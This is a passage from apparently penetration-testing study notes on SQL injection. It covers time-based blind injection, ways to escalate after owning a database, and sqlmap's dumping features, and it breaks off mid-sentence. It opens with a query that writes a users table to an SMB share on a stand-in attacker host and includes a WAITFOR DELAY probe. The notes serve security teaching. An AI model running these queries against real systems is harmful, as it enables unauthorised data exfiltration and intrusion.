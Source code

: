 ```sql
SELECT * INTO OUTFILE
'\\\your_attacking_pc.com\\share\output.txt'
FROM users;
--  If you have a SMB share on the target PC set up to allow write from anonymous sources, the SQL query output will be written to the file specified
```

---

#### Time Delays

- Time Delays

  - These can be used to enumerate data stored in a database
  - If the application waits for the time specified in the query, a condition may be TRUE

- For example:
  - `If user = 'art' WAITFOR DELAY '0:0:5';`
  - If the application waits for 5 seconds before responding, then the condition was TRUE

---

#### Escalating Database Attacks

- If you have managed to own the web application database, there are further attacks that can be carried out
- **Obtain access to other databases** used by other applications on the same shared server
- **Compromise the Operating System** of the database server

- Obtain access to **other network** resources connected to the exploited database server
- Make network connections back to the attacking computer for the purpose of **data exfiltration**
- Adjusting functionality that may have been originally disabled when hardening the system

---

## SQL Mapping

- `SQL Mapping`

  - Automated SQL Injection Tool: SQLmap

- Sqlmap is a popular tool preinstalled on Kali Linux to launch database attacks

  - It has the ability to **attack** MySQL, Oracle, or MSSQL database systems
  - It implements UNION-based and inference based **data retrieval**

---

- SQL Mapping uses SQL injection vulnerabilities to **map out the contents** of a database
- The SQL Map tool on Kali Linux has the ability to:

  - Dump the **databases** on a server
  - Dump the **tables** in a database
  - Dump the **contents** of the tables

- SQLmap now has the ability to **directly connect** to a database without using SQL injection
- SQLmap is a built in tool in Kali Linux but you have the option of downloading it directly from:
